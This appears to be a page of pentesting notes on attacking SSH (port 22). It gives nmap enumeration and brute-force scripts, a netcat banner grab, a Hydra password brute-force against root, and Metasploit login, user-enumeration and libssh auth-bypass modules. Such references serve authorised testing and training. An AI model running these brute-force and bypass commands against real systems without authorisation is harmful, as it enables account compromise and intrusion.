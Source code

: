 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
---
```


# 22 - SSH

## Nmap Scripts

```bash
# Enum authentication methods
sudo nmap -p22 --script=ssh-auth-methods --script-args="ssh.user=root" $IP

# Enum algorithm used
sudo nmap -p22 --script=ssh2-enum-algos $IP

# Enum hostkey server's fingerprint
sudo nmap -p22 --script=ssh-hostkey --script-ags ssh_hostkey=full $IP

# Bruteforcing
sudo nmap -p22 --script=ssh-brute --script-args userdb=/wordlists/users.txt $IP
```

## Banner Grabbing

```bash
nc -nv $IP 22
```

## Hydra

```bash
hydra -l "root" -P /wordlists/passwords.txt $IP ssh
```

## MSFconsole

```bash
auxiliary/scanner/ssh/ssh_version
auxiliary/scanner/ssh/ssh_login
auxiliary/scanner/ssh/ssh_enumusers

# Check if SSH vulnerable to AUTHENTICATION bypass
auxiliary/scanner/ssh/libssh_auth_bypass
```
